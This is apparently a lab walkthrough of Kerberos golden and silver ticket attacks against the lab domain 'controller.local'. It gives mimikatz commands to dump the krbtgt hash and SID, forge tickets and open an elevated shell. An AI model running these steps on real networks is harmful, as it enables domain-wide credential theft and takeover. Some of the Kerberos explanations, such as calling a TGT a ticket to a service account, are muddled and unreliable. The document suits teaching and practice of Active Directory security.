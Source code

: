 # KRBTGT Overview

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A TGT is a ticket to a service account issued by the KDC and can only access that service the TGT is from like the SQLService ticket.

# Golden/Silver Ticket Attack Overview

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

![https://i.imgur.com/GT1kkfo.png](https://i.imgur.com/GT1kkfo.png)

# Dump the krbtgt hash

1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - ensure this outputs [privilege '20' ok]

3.) `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

![https://i.imgur.com/VOEsU4O.png](https://i.imgur.com/VOEsU4O.png)

# Create a Golden/Silver Ticket

1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

![https://i.imgur.com/rh06qDl.png](https://i.imgur.com/rh06qDl.png)

# Use the Golden/Silver Ticket to access other machines

1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

![https://i.imgur.com/6HnEnwi.png](https://i.imgur.com/6HnEnwi.png)

